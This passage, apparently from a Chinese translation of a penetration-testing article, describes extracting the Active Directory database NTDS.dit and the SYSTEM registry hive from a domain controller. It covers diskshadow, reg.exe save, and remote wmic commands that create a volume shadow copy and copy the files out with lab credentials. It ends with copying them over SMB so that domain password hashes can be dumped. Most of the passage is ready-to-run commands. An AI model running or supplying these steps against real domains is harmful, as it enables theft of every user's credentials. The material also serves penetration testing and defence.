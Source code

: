 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5dff596e-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171015-5dff596e-988f-1.png)  
直接从解释器运行以下命令将列出系统的所有可用卷影副本。

```
diskshadow
LIST SHADOWS ALL
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e1c9470-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e1c9470-988f-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e2dbe6c-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e2dbe6c-988f-1.png)  
`SYSTEM`注册表配置单元也应该复制，因为它包含解密 NTDS 文件内容的密钥。

```
reg.exe save hklm\system c:\exfil\system.bak
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e41a936-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e41a936-988f-1.png)

WMI
---

Sean Metcalf 在他的[博客](https://adsecurity.org/?p=2398)中证明了，可以通过 WMI 远程提取 NTDS.DIT​​和 SYSTEM 文件。此技术使用`vssadmin`二进制文件来创建卷的副本。

```
wmic /node:dc /user:PENTESTLAB\David /password:pentestlab123!! process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e4d0146-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e4d0146-988f-1.png)  
然后，它远程执行复制命令，以便将卷影副本中的 NTDS.DIT​​文件解压缩到目标系统上的另一个目录中。

```
wmic /node:dc /user:PENTESTLAB\David /password:pentestlab123!! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e59d402-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e59d402-988f-1.png)  
这同样适用于 SYSTEM 文件。

```
wmic /node:dc /user:PENTESTLAB\David /password:pentestlab123!! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e659fd0-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e659fd0-988f-1.png)  
然后，解压缩的文件可以从域控制器传输到另一个 Windows 系统，然后 dump 域内用户密码哈希值。

```
PS C:\Users\test.PENTESTLAB> copy \\10.0.0.1\c$\temp\ntds.dit C:\temp
PS C:\Users\test.PENTESTLAB> copy \\10.0.0.1\c$\temp\SYSTEM.hive C:\temp
```

